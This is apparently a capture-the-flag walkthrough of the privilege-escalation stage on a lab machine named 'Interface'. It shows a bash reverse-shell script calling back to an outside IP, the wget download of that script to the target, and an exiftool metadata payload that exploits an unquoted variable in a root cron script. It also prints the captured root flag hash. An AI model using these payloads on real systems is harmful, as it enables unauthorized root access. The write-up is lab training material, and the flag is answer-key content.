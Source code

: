 1) After the enumeration, I discover this script:
```
/usr/local/sbin/cleancache.sh
```
```bash
#! /bin/bash
cache_directory="/tmp"
for cfile in "$cache_directory"/*; do

    if [[ -f "$cfile" ]]; then

        meta_producer=$(/usr/bin/exiftool -s -s -s -Producer "$cfile" 2>/dev/null | cut -d " " -f1)

        if [[ "$meta_producer" -eq "dompdf" ]]; then
            echo "Removing $cfile"
            rm "$cfile"
        fi

    fi

done


```

2) I discover that this script  an UNQUOTED variable, thereby I can inject the command inside this script, I  craft the payload using this article:
[bash - Quoted vs unquoted string expansion - Unix & Linux Stack Exchange](https://unix.stackexchange.com/questions/78914/quoted-vs-unquoted-string-expansion)

3) In my local machine I create a file that spawn the shell:
```
┌──(kali㉿kali)-[~]
└─$ nano shell.sh   
 ```
 ```                                                                                                                                                                                                                                          
┌──(kali㉿kali)-[~]
└─$ cat shell.sh        
#!/bin/bash 
/bin/bash -i >& /dev/tcp/10.10.14.230/9001 0>&1
```

4) I create a reverse shell file and put it into /var/www directory:
```
www-data@interface:/home/dev$ wget http://10.10.14.230:8000/shell.sh -O /var/www/shell.sh
<p://10.10.14.230:8000/shell.sh -O /var/www/shell.sh
--2023-02-24 20:47:40--  http://10.10.14.230:8000/shell.sh
Connecting to 10.10.14.230:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 61 [text/x-sh]
Saving to: '/var/www/shell.sh'

     0K                                                       100% 6.64M=0s

2023-02-24 20:47:40 (6.64 MB/s) - '/var/www/shell.sh' saved [61/61]

www-data@interface:/home/dev$ 
```

5) Change the privilege:
```
www-data@interface:/home/dev$ chmod +x /var/www/shell.sh
chmod +x /var/www/shell.sh
```

6) I create a file with metadata containing the producer field, this is the my payload:
```
a[$(/var/www/shell.sh>&2)]
```

7) In my local machine inject the payload inside a image:
```
┌──(kali㉿kali)-[~]
└─$ exiftool -Producer='a[$(/var/www/shell.sh>&2)]' lupin.png    
    1 image files updated
```

8) In my local machine I start a listening port:
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
```

9) Now in the target machine I put the file in the /tmp directory:
```
www-data@interface:/home/dev$ wget http://10.10.14.230:8000/lupin.png -O /tmp/shell.png          
<ttp://10.10.14.230:8000/lupin.png -O /tmp/shell.png
--2023-02-24 20:57:54--  http://10.10.14.230:8000/lupin.png
Connecting to 10.10.14.230:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 132808 (130K) [image/png]
Saving to: '/tmp/shell.png'

     0K .......... .......... .......... .......... .......... 38%  507K 0s
    50K .......... .......... .......... .......... .......... 77% 1.03M 0s
   100K .......... .......... .........                       100% 2.31M=0.2s

2023-02-24 20:57:54 (819 KB/s) - '/tmp/shell.png' saved [132808/132808]

www-data@interface:/home/dev$ 
```

10) Now when it execute the cronjob spawn the root shell in the listening port:
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.230] from (UNKNOWN) [10.10.11.200] 46984
bash: cannot set terminal process group (50590): Inappropriate ioctl for device
bash: no job control in this shell
root@interface:~# cat /root/root.txt
cat /root/root.txt
f569f60558a4f033b89865d60e9ec7b6
root@interface:~# 
```

-------
## Patch the machines vulnerabilities

1) I remove the file that generate the privilege escalation:
```
root@interface:~# rm /usr/local/sbin/cleancache.sh             
rm /usr/local/sbin/cleancache.sh
```
2) I leave my signature:
```
root@interface:~# cd /home/dev/
cd /home/dev/
root@interface:/home/dev# touch README.txt
touch README.txt
root@interface:/home/dev# echo 'CyberSpider  has been here, Now I am root :)' > README.txt
<ider  has been here, Now I am root :)' > README.txt
root@interface:/home/dev# cat README.txt
cat README.txt
CyberSpider  has been here, Now I am root :)
root@interface:/home/dev# chmod a=+r-x-w README.txt
chmod a=+r-x-w README.txt
root@interface:/home/dev# ls -all README.txt
ls -all README.txt
-r--r--r-- 1 root root 45 Feb 24 21:03 README.txt
root@interface:/home/dev#  
```